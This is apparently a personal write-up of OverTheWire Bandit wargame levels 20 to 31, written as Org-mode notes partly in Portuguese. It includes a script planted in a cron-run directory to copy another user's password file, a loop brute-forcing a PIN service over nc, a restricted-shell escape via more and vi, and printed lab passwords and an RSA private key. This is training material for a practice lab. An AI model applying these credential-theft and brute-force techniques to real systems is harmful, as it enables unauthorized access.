I expect to receive an answer from suconnect, because it is in the same "chat".

#+begin_src shell
telnet 1111 &
telnet 1111
Hello, there!
#+end_src

I didn't get the message to be echoed on the screen, as I expected.
It says something like "job /stopped/"; I wonder if I need to keep it running in the background.

Let's try a different port: 30000.

#+begin_src shell
bandit20@bandit:~$ ./suconnect 30000 &
[1] 69995
bandit20@bandit:~$ telnet localhost 30000
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
Wrong! Please enter the correct current password.
Connection closed by foreign host.
#+end_src

I believe this is the same guy from a previous Bandit.
Let's test it.
That Bandit is 14.
Let's re-run it:

#+begin_src shell
bandit20@bandit:~$ telnet localhost 30000
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
MU4VWeTyJk8ROof1qqmcBPaLh7lDCPvS
Correct!
8xCjnmgoKbGLhHFAZlGE5Tmu4M2tKJQo

Connection closed by foreign host.
#+end_src

Yep!
It is the same, and it works for the user bandit20 too.

Apparently, two processes cannot listen to the same port (usually).
I'll try running suconnect as a daemon, and telnet as a Client.
I need a port.

These are all the ports available:

|          | bandit20@bandit:~$ nmap -p 0-65535 localhost                       |
|          | Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 17:37 UTC |
|          | Nmap scan report for localhost (127.0.0.1)                         |
|          | Host is up (0.000097s latency).                                    |
|          | Not shown: 65506 closed tcp ports (conn-refused)                   |
| WORKS?   | PORT      STATE SERVICE                                            |
|          | 22/tcp    open  ssh                                                |
|          | 1111/tcp  open  lmsocialserver                                     |
|          | 1840/tcp  open  netopia-vo2                                        |
|          | 2220/tcp  open  netiq                                              |
|          | 2221/tcp  open  rockwell-csp1                                      |
|          | 2223/tcp  open  rockwell-csp2                                      |
|          | 2224/tcp  open  efi-mg                                             |
|          | 2225/tcp  open  rcip-itu                                           |
|          | 2226/tcp  open  di-drm                                             |
|          | 2227/tcp  open  di-msg                                             |
|          | 2228/tcp  open  ehome-ms                                           |
|          | 2230/tcp  open  queueadm                                           |
|          | 2231/tcp  open  wimaxasncp                                         |
|          | 2232/tcp  open  ivs-video                                          |
|          | 4091/tcp  open  ewinstaller                                        |
|          | 4258/tcp  open  vrml-multi-use                                     |
|          | 4321/tcp  open  rwhois                                             |
|          | 5842/tcp  open  reversion                                          |
|          | 8000/tcp  open  http-alt                                           |
| bandit14 | 30000/tcp open  ndmps                                              |
| n        | 30001/tcp open  pago-services1                                     |
| bandit25 | 30002/tcp open  pago-services2                                     |
|          | 31046/tcp open  unknown                                            |
|          | 31518/tcp open  unknown                                            |
|          | 31691/tcp open  unknown                                            |
|          | 31790/tcp open  unknown                                            |
|          | 31960/tcp open  unknown                                            |
|          | 50001/tcp open  unknown                                            |
|          | 51790/tcp open  unknown                                            |
|          | 60917/tcp open  unknown                                            |

Given that bandit15 uses port 30000, and bandit25 uses port 30002, I bet the port I need for this Bandit is 30001.

I tried first running succonect on the background and sending the password via nc.
But it closes the connection.

#+begin_example
bandit20@bandit:~$ ./suconnect 30001 &
[1] 290352

bandit20@bandit:~$ nc localhost 30001
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
bandit20@bandit:~$                       <--- It closes the connection
#+end_example

I tried using ~screen~ to run the daemon, and another session to connect to it.

I created a dedicated session for ~suconnect~:

#+begin_src shell
screen -S suconnect
#+end_src

Then I started the ~suconnect~ daemon.

#+begin_src shell
./suconnect 30001
#+end_src

Then I detached the screen session with ~C-a d~.

Then I connected and sent the password using ~nc~.

#+begin_src shell
nc localhost 30001
#+end_src

I was disconnected, as expected.

Then I reattached to the ~screen~ running ~suconnect~ with

#+begin_src shell
screen -x suconnect
#+end_src

I expected to see the next password as the output there, but there was no output.

Future me: up until now, I had tried:
- ~suconnect~ as the daemon
  - using already opened ports

| Daemon    | Open new port | Use existing port |
|-----------+---------------+-------------------|
| suconnect |               | Doesn't work      |
| nc        |               |                   |

I tried connecting with ~suconnect~ to every port in the interval 0--65535.
It connected to some, but I couldn't tell if it was connecting to an open port or opening a new port.

Then I came across [[https://stackoverflow.com/a/79726454][this answer on Stackoverflow]] that teaches hot to solve it.
According to this answer, ~nc~ will be the daemon, and ~suconnect~ will be the client.
The answer instructs to use the parameters ~-lnvp~ for ~nc~.

I first tried to use port 30001.

#+begin_example
bandit20@bandit:~$ nc -lnvp 30001
nc: Address already in use
#+end_example

Then I tried a port not reported by ~nmap~ above.

#+begin_example
bandit20@bandit:~$ nc -lnvp 30003
Listening on 0.0.0.0 30003
#+end_example

Then I dettached and attached to ~suconnect~'s ~screen~.
I started ~suconnect~ there using the same port.

#+begin_src shell
./suconnect 30003
#+end_src

No output.

Back on ~nc~'s screen, I got the message of a received connection, probably from ~suconnect~.

#+begin_example
Connection received on 127.0.0.1 54356
#+end_example

I then sent the current password, and got the next one as a reply.

#+begin_example
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
EeoULMCra2q0dSkYj561DX7s1CpBuOBt
#+end_example

Back on ~suconnect~'s ~screen~:

#+begin_example
Read: 0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
Password matches, sending next password
#+end_example

After reading this from ~man lc~:

#+begin_example
-l      Listen for an incoming connection rather than initiating a con‐
        nection to a remote host.  The destination and port to listen on
        can be specified either as non-optional arguments, or with op‐
        tions -s and -p respectively.  Cannot be used together with -x or
        -z.  Additionally, any timeouts specified with the -w option are
        ignored.
#+end_example

I tried with just ~nc -l~, and it worked the same.

I also tried still using ~nc~ as the daemon, but without any parameter.

#+begin_example
bandit20@bandit:~$ nc 30003
nc: missing port number
#+end_example

Then with the host.

#+begin_example
bandit20@bandit:~$ nc localhost 30003
bandit20@bandit:~$
#+end_example

Apparently it did not create a connection.
I still tried starting ~suconnect~.

#+begin_example
bandit20@bandit:~$ ./suconnect 30003
Could not connect
#+end_example

This shows that it needs the ~-l~ parameter.

I looked at the manpage for the meaning of the ~nvp~ parameters.

#+begin_example
-n      Do not perform domain name resolution.  If a name cannot be re‐
        solved without DNS, an error will be reported.
#+end_example

I don't see why this would affect the command, as no host was used.

#+begin_example
-v      Produce more verbose output.
#+end_example

Non-essential.

#+begin_example
-p source_port
        Specify the source port nc should use, subject to privilege re‐
        strictions and availability.
#+end_example

Why does it work witout specifying 30003 as a /port/ with ~p~?
The only mandatory parameter so far is ~l~, which needs a destination and port.

From the manpage:

#+begin_example
In general, a destination must be specified, unless the -l option is given (in which case the local host is used).
#+end_example

Now, the only mandatory parameter is the port, so there is no reason to make ~-p~ mandatory.

EeoULMCra2q0dSkYj561DX7s1CpBuOBt
*** 21

#+begin_quote
A program is running automatically at regular intervals from cron, the time-based job scheduler.
Look in /etc/cron.d/ for the configuration and see what command is being executed.
#+end_quote

The files in ~/etc/cron.d/~ are:

#+begin_example
bandit21@bandit:/etc/cron.d$ ls -lah
total 60K
drwxr-xr-x   2 root root 4.0K Aug 15 13:19 .
drwxr-xr-x 128 root root  12K Aug 29 21:51 ..
-r--r-----   1 root root   47 Aug 15 13:16 behemoth4_cleanup
-rw-r--r--   1 root root  123 Aug 15 13:09 clean_tmp
-rw-r--r--   1 root root  120 Aug 15 13:16 cronjob_bandit22
-rw-r--r--   1 root root  122 Aug 15 13:16 cronjob_bandit23
-rw-r--r--   1 root root  120 Aug 15 13:16 cronjob_bandit24
-rw-r--r--   1 root root  201 Apr  8  2024 e2scrub_all
-r--r-----   1 root root   48 Aug 15 13:17 leviathan5_cleanup
-rw-------   1 root root  138 Aug 15 13:17 manpage3_resetpw_job
-rwx------   1 root root   52 Aug 15 13:19 otw-tmp-dir
-rw-r--r--   1 root root  102 Mar 31  2024 .placeholder
-rw-r--r--   1 root root  396 Jan  9  2024 sysstat
#+end_example

To get the file contents I used ~cat~:

#+begin_example
bandit21@bandit:/etc/cron.d$ find . -exec echo {} \; -exec cat {} \; -exec echo "" \;
#+end_example

This guy is the most suspicious one.

#+begin_example
./sysstat
# The first element of the path is a directory where the debian-sa1
# script is located
PATH=/usr/lib/sysstat:/usr/sbin:/usr/sbin:/usr/bin:/sbin:/bin

# Activity reports every 10 minutes everyday
5-55/10 * * * * root command -v debian-sa1 > /dev/null && debian-sa1 1 1

# Additional run at 23:59 to rotate the statistics file
59 23 * * * root command -v debian-sa1 > /dev/null && debian-sa1 60 2
#+end_example

#+begin_quote
# The first element of the path is a directory where the debian-sa1
# script is located
#+end_quote

The contents of "the first element of the path", ~/usr/lib/sysstat/~, are:

#+begin_example
bandit21@bandit:/usr/lib/sysstat$ alias ls='ls -lah'
bandit21@bandit:/usr/lib/sysstat$ ls
total 104K
drwxr-xr-x  2 root root 4.0K Jul 31 10:05 .
drwxr-xr-x 86 root root 4.0K Aug 15 13:10 ..
-rwxr-xr-x  1 root root  446 Jan  9  2024 debian-sa1
-rwxr-xr-x  1 root root 1.8K Jan  9  2024 sa1
-rwxr-xr-x  1 root root 1.6K Jan  9  2024 sa2
-rwxr-xr-x  1 root root  82K Jan  9  2024 sadc
#+end_example

It didn't take anywhere interesting.

After some fiddling around:

#+begin_example
bandit21@bandit:~$ cat /cat /usr/bin/cronjob_bandit22.sh
cat: /cat: No such file or directory
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
#+end_example

The passwords are in those ~/etc/bandit_pass/banditXX~ files.
This cron job is copying the password I need, ~bandit22~'s, to a temp file.
To see it, I did:

#+begin_example
bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
#+end_example

and voilà:

tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
*** 22

#+begin_quote
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.
#+end_quote

The contents of ~/etc/cron.d/~ should be the same.
I'll start by investigating ~bandit22~'s script.
This is the job for the bandit:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
​* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
#+end_example

and this is the contents of that script:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat  /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
#+end_example

It uses the username ~bandit24~ (that would be gotten from ~whoami~) to create a target filename in a somewhat sophisticated process involving ~mdsum~.

I simulate the results of that command to get the script's real target:

#+begin_example
bandit22@bandit:/etc/cron.d$ myname=bandit23; mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
bandit22@bandit:/etc/cron.d$ echo $mytarget
8ca319486bfbbc3663ea0fbe81326349
#+end_example

Then I use that to ~cat~ the password from that target file:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat /tmp/$mytarget
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
#+end_example

Password obtained.

0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
*** 23

#+begin_example
A program is running automatically at regular intervals from cron, the time-based job scheduler.
Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script.
This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

Commands you may need to solve this level

chmod, cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#+end_example

I go straight to ~bandit24~'s script:

#+begin_example
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
----------------------------------------------------------------------
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
#+end_example

I analyze it piece by piece:

#+begin_example
myname=$(whoami)
#+end_example

Sets ~myname~ to ~bandit24~.

#+begin_example
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        <<process each file>>
    fi
done
#+end_example

It processes each file in ~/var/spool/bandit24/foo~.
I tried reading the contents of that directory, but got ~Permission denied.~

The processing of each file occurs as follows:

~<<process each file>> +≡~

#+begin_src x :noweb-ref process each file
echo "Handling $i"
owner="$(stat --format "%U" ./$i)"
if [ "${owner}" = "bandit23" ]; then
    timeout -s 9 60 ./$i
fi
rm -f ./$i
#+end_src

It runs /my/ scripts inside ~/var/spool/bandit24/foo~.
I will try to inject a script there that somehow gives me ~bandit24~'s password.

#+begin_src shell
#!/bin/bash
MY_PASS_FILE=/etc/bandit_pass/bandit24
TARGET=zoiaum

cat ${MY_PASS_FILE} > ${TARGET}
cp ${TARGET} /tmp
#+end_src

I created a file ~/tmp/zoinho.sh~, ~chmod +x~ it, and copied it to ~/var/spool/bandit24/foo~.
Then after typing this, I went to check if I got the password.

#+begin_example
bandit23@bandit:/tmp$ cat zoiaum
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
#+end_example

That file was created by ~bandit24~, and I was curious /why/ I have permission to /read/ it.
I ran a ~stat~ on it:

#+begin_example
bandit23@bandit:/tmp$ stat zoiaum
  File: zoiaum
  Size: 33              Blocks: 8          IO Block: 4096   regular file
Device: 259,1   Inode: 87017       Links: 1
Access: (0664/-rw-rw-r--)  Uid: (11024/bandit24)   Gid: (11024/bandit24)
Access: 2025-10-11 21:55:30.532352401 +0000
Modify: 2025-10-11 21:55:01.567169570 +0000
Change: 2025-10-11 21:55:01.567169570 +0000
 Birth: 2025-10-11 21:55:01.565351402 +0000
#+end_example

I can see that, the file was created with read permission for everybody, and that is why I am allowed to read it.

gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
*** 24

#+begin_quote
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode.
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time
#+end_quote

I try first to connect with ~nc~ to port 30002.

#+begin_quote
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
#+end_quote

Ok, separate password and pincode by a space.

I go to the manpage for ideas on how to bruteforce it without creating new connections each time.

#+begin_example
nc localhost 30002 << EOF
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0001
EOF
#+end_example

This works, but I would have to create a huge input string with all the possible combinations.
Can I do it programatically?
Back to the manpage.

Couldn't find any way to build the combinations programatically without having to create a file.

My first idea was to use ~yes~ to create copies of the password, then ~seq~ for the pin codes, then another command to concatenate them in columns, and pass it to ~nc~'s connection to port 30002.

I could not find a command to concatenate the columns on Info coreutils.

Then googling I stumbled upon ~COMMAND | while read LINE; do echo $LINE~.

It works like this: ~COMMAND | while PREDICATE; BODY;~.
The redirection with | gives COMMAND's output to ~while~.
~while~ consumes that output one line per iteration.
PREDICATE is evaluated once per iteration.
In this case, it is the result of ~read LINE~.
~read~ is programmed to assign the value of its input to the variable LINE.
~read~ makes that line accessible via $LINE.
Note that it could be any other name, instead of "LINE"---it is just a variable name.

I saw that I could use this to concatenate the password with the pin codes with:

#+begin_example
seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002
#+end_example

I ran it in the server.

#+begin_example
bandit24@bandit:~$ seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002

...

Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
#+end_example

I was curious to know the correct pin code.
I redirected the output to a file, and counted the lines of that file, then tried guessing some pin codes in that neighborhood.
I could have done some math :P

#+begin_example
seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002 > /tmp/tmp.kPTagzvdT7

bandit24@bandit:~$ wc -l /tmp/tmp.kPTagzvdT7
9166 /tmp/tmp.kPTagzvdT7

bandit24@bandit:~$ head /tmp/tmp.kPTagzvdT7
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
b

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9164
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9163
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9162
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
#+end_example

The pincode is 9162.

iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
*** 25

#+begin_quote
Logging in to bandit26 from bandit25 should be fairly easy…
The shell for user bandit26 is not /bin/bash, but something else.
Find out what it is, how it works and how to break out of it.


Commands you may need to solve this level

ssh, cat, more, vi, ls, id, pwd
#+end_quote

There's a private key in bandit25's home dir:

~id_rsa_overthewire.org-bandit26~ ≡

#+begin_src ssh-key
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW
pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9
/5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG
xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi
1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix
3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW
qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi
il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w
e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh
Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME
zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX
c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le
wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV
tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI
2ROJsBXaiM4Iyg9hUpjZIn8TW2UlH76pojFG6/KBd1NcnW3fu0ZUU790wAu7QbbU
i7pieeqCqSYcZsmkhnOvbdx54A6NNCR2btc+si6pDOe1jdsGdXISDRHFb9QxjZCj
6xzWMNvb5n1yUb9w9nfN1PZzATfUsOV+Fy8CbG0CgYEAifkTLwfhqZyLk2huTSWm
pzB0ltWfDpj22MNqVzR3h3d+sHLeJVjPzIe9396rF8KGdNsWsGlWpnJMZKDjgZsz
JQBmMc6UMYRARVP1dIKANN4eY0FSHfEebHcqXLho0mXOUTXe37DWfZza5V9Oify3
JquBd8uUptW1Ue41H4t/ErsCgYEArc5FYtF1QXIlfcDz3oUGz16itUZpgzlb71nd
1cbTm8EupCwWR5I1j+IEQU+JTUQyI1nwWcnKwZI+5kBbKNJUu/mLsRyY/UXYxEZh
ibrNklm94373kV1US/0DlZUDcQba7jz9Yp/C3dT/RlwoIw5mP3UxQCizFspNKOSe
euPeaxUCgYEAntklXwBbokgdDup/u/3ms5Lb/bm22zDOCg2HrlWQCqKEkWkAO6R5
/Wwyqhp/wTl8VXjxWo+W+DmewGdPHGQQ5fFdqgpuQpGUq24YZS8m66v5ANBwd76t
IZdtF5HXs2S5CADTwniUS5mX1HO9l5gUkk+h0cH5JnPtsMCnAUM+BRY=
-----END RSA PRIVATE KEY-----
#+end_src

#+begin_src shell
chmod 600 ~/.ssh/id_rsa_overthewire.org-bandit26
#+end_src

After preparations above, used it to ~ssh~ as bandit26.

It connects, but closes right away:

#+begin_example
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to bandit.labs.overthewire.org closed.
#+end_example

I believe I must find out about what the shell for bandit26 is.

~.bash_logout~ has some "privacy-increasing" measures...

#+begin_example
# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
#+end_example

#+begin_example
bandit25@bandit:/home/bandit26$ /usr/bin/clear_console 
clear_console: terminal is not a console
#+end_example

Meh.

I could find out bandit26's login shell by looking at the default place: ~/etc/passwd~.

#+begin_example
bandit25@bandit:~$ cat /etc/passwd|grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
#+end_example

The contents of ~/usr/bin/showtext~ are:

#+begin_example
bandit25@bandit:~$ cat /usr/bin/showtext 
----------------------------------------------------------------------
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
#+end_example

Se eu peço para o ssh executar um comando ao final, tipo

ssh {host port user id_rsa, etc} /bin/bash

ele fica travado.

Acho que é isso que o enunciado se refere quando diz

#+begin_quote
Find out what it is, how it works and how to break out of it.
#+end_quote

1. What it is
   1. ~/usr/bin/showtext~
2. How it works
   1. It opens a text file, shows its content on the screen, and quits.
      1. It uses ~exec~, and this means
         1. This prevents access to the shell


O ~exec~ roda o comando por cima do /usr/bin/showtext.

O exec é um shell buit-in:

#+begin_example
(base) rafa@bach:~$ type -a exec
exec is a shell builtin
#+end_example

#+begin_example
(base) rafa@bach:~$ help exec
exec: exec [-cl] [-a name] [command [argument ...]] [redirection ...]
    Replace the shell with the given command.
    
    Execute COMMAND, replacing this shell with the specified program.
    ARGUMENTS become the arguments to COMMAND.  If COMMAND is not specified,
    any redirections take effect in the current shell.
    
    Options:
      -a name   pass NAME as the zeroth argument to COMMAND
      -c        execute COMMAND with an empty environment
      -l        place a dash in the zeroth argument to COMMAND
    
    If the command cannot be executed, a non-interactive shell exits, unless
    the shell option `execfail' is set.
    
    Exit Status:
    Returns success unless COMMAND is not found or a redirection error occurs.
(base) rafa@bach:~$ 
#+end_example

According to [[https://serverfault.com/a/823466][this answer on Server Fault]], all commands executed via ssh are actually executed by the login shell.
This would mean

ssh {connection stuff} ls

ssh {...} /usr/bin/showtext ls.

But /usr/bin/showtext does not deal with arguments in any way.
So I don't see how this could help me.


more accepts commands like vi

in vi, they come via stderr


this works for vi:

https://vi.stackexchange.com/a/44475
vim - <<< "Hello, World!" 2<<< ":w! file.txt | :q"

É pra mandar um Ctrl+Z enquanto o ~more~ ainda tá rodando.
Isso vai me dar o shell que o invocou.
Short-lived program
Difícil na mão.
Usar um programa: expect.
Precisa de um script.

[[file:landit26.expect][bandit26.expect]] ≡

#+begin_src expect
#!/usr/bin/expect -f
# bandit26-hit.exp — spawn ssh and immediately send a control byte, then hand control to you.

# === Configuration: change these to match your local SSH command ===
set timeout 10
set ssh_cmd {ssh -t -p 2220 -l bandit26 -i ~/.ssh/id_rsa_overthewire.org-bandit26 bandit.labs.overthewire.org}

# === Control character to send ===
# \032 is Ctrl+Z (ASCII SUB). Change to \003 for Ctrl+C, etc.
set ctrl_byte "\003"

# Spawn the SSH client
spawn -noecho {*}$ssh_cmd

# Option 1: wait for any data from the remote side, then immediately send the control char
# (this triggers the key while the pager is running)
expect {
    -re {.+} { send -- $ctrl_byte }
    timeout { send -- $ctrl_byte }   ;# fallback: send anyway if nothing seen within timeout
}

# Hand control to your terminal interactively
interact
#+end_src

#+begin_src shell
chmod +x bandit26.expect
#+end_src

#+RESULTS:



janela pequena força modo interativo do more

v abre o vim

rodar ocmandos no vim

rodei um open do pass if

:e /etc/band.../band..26

s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

Essa senha deixa logar, mas cai no mesmo problema.

:set shell=/bin/bash

:shell

upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
*** 27 -> 28

git repo at

ssh://bandit27-git@localhost/home/bandit27-git/repo
via the port 2220

i have to clone this repo

**** clone logged in the server

from the manpage, the format for ssh urls is

#+begin_quote
ssh://[user@]host.xz[:port]/~[user]/path/to/repo.git/
#+end_quote

translating to the address:

git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo

didn't allow the clone (no write permission)

going local

**** clone from my local machine

git clone ssh://bandit27-git@bandit.labs.overthewire.org:2220/home/bandit27-git/repo

password was inside README

Yz9IpL0sBcCeuG7m9uQFt8ZNpS4HZRcN
*** 28 -> 29

ssh://bandit28-git@localhost/home/bandit28-git/repo via the port 2220.

git clone ssh://bandit28-git@bandit.labs.overthewire.org:2220/home/bandit28-git/repo

tava no git log

sshpass -p 4pT1t5DENaYuqnqvadYs1oE4QLCdjmJ7 ssh bandit.labs.overthewire.org -p 2220 -l bandit29
*** 29 -> 30
:PROPERTIES:
:header-args: :session *29*
:END:

**** Instructions

#+begin_quote
Level Goal

There is a git repository at ssh://bandit29-git@localhost/home/bandit29-git/repo via the port 2220.
The password for the user bandit29-git is the same as for the user bandit29.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

**** Clone the repository

Basic clone structure.

#+begin_src shell
export SERVER=bandit29-git@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/bandit29-git/repo
export REMOTE_REPO=ssh://$SERVER:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/bandit29-git-repo
export REPO=$LOCAL_FOLDER
#+end_src

Essential in this problem: mirror the remote repository.
This way we get all the branches.
The password turned out to be on a branch ~dev~, that was not fetched with the normal ~git clone~ command.

#+begin_src shell
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit29-git@bandit.labs.overthewire.org:2220/home/bandit29-git/repo /home/rafa/hack/overthewire.org/bandit29-git-repo

qp30ex3VLz5MDG1n91YowTv4Q8l7CDZL
*** Bandit Level 30 → Level 31

#+begin_quote
Level Goal

There is a git repository at ssh://bandit30-git@localhost/home/bandit30-git/repo via the port 2220.
The password for the user bandit30-git is the same as for the user bandit30.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

#+begin_src shell
export BANDIT=bandit30-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo
export REPO=$LOCAL_FOLDER
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit30-git@bandit.labs.overthewire.org:2220/home/bandit30-git/repo /home/rafa/hack/overthewire.org/bandit30-git-repo

There was a ~secret~ tag.

Fetched it.
Couldn't ~checkout~ to it, nor hard reset to it.
Then I looked inside it.

#+begin_example
(base) rafa@bach:~/hack/overthewire.org/bandit30-git-repo$ git cat-file -p secret
fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
#+end_example

fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
*** Bandit Level 31 → Level 32

#+begin_quote
Level Goal

There is a git repository at ssh://bandit31-git@localhost/home/bandit31-git/repo via the port 2220.
The password for the user bandit31-git is the same as for the user bandit31.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

#+begin_src shell
export BANDIT=bandit31-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
